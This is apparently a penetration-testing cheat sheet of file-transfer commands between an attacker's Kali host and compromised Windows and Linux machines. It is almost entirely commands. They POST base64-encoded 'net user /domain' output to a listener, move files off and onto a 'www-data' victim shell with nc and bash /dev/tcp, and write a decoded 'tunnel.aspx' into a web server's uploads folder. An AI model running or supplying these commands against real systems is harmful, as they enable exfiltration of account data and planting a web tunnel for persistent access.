 ## Windows

### Base64

Local file to base64:

```shell
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Local string to base64 and POST:

```shell
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > Invoke-RestMethod -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```




## Linux2Linux



### /dev/tcp

```
# Sender:
root@kali:$ tar -zcvf folder.tar.gz folder
root@kali:$ nc -w3 -lvnp 1234 < file.txt
# Recipient:
www-data@victim:$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > .folder.tar.gz'
www-data@victim:$ tar -zxvf .folder.tar.gz

# Recipient:
root@kali:$ nc -w3 -lvnp 1234 > file.txt
# Sender:
www-data@victim:$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```




## Linux2Windows

* [blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)



### Base64

Full base64 file transfer from Linux to Windows:

```
root@kali:$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```
